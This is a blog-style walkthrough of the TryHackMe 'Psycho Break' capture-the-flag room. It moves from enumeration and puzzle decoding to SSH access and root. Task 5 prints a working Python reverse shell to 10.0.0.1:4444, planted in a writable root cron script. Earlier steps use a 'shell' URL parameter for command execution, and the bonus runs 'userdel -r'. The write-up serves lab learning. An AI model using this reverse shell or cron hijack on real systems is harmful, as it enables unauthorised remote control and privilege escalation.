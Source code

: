 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
image: /assets/img/tryhackme/psychobreak/room_icon.jpeg
---
```



Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## Task 1

![nmap](/assets/img/tryhackme/psychobreak/3.png)
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## Task 2

![http_service](/assets/img/tryhackme/psychobreak/4.png)
<p> In the source page we can find the room name. Let’s go into the room.</p>

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<p>At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text</p>

![decode](/assets/img/tryhackme/psychobreak/8.png)
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<p>In the source code of the page we can find a hint.<p>

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100</pre>

<p>use gobuster with the medium wordlist to find the hidden directory.</p>

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
<p>After clicking on the link we are redirected to another page.</p>

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
<p>A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.</p>

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
<p>After clicking on the link, it redirects to another page.</p>

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
<p>After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….</p>

<pre>http://<ip-address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..</pre>

![dir_list](21.png)
<p>I downloaded the two files after moving into the other directory that was returned in the response.</p>

## Task 3

<p>The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.</p>

<pre>binwalk -e image.jpg</pre>
<p>After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).</p>

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
<p>Using the message that is decrypted  to extract the contents of the other image file with steghide.</p>

<pre>steghide --extract -sf image_file.jpg</pre>
<p>The text file gives the ftp credentials. Let’s login to ftp…</p>

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## Task 4

<p>I found two files in the ftp server and I downloaded using the get command.</p>

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

<p>After running the program file I found that it takes a word as a argument. So, I ran the bash script.</p>

```
for i in $(cat list.dic);
do
./program $i;
done
```

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
<p>There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().</p>


## Task 5

<p>The decoded text is the SSH password. Without further wait, let’s login to ssh.</p>

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
<p>We found the user.txt in the home directory and some other hidden files</p>

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
<p>After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.</p>

<pre>
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
</pre>

<p>So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.</p>

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
<p>We also got the root flag.</p>

## Bonus

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

<p>The bonus task is to delete the user ruvik</p>

<pre>userdel -r ruvik</pre>
<p> Run this as root</p>

<p>That’s it folks. Happy Hacking!!! :sunglasses: </p>
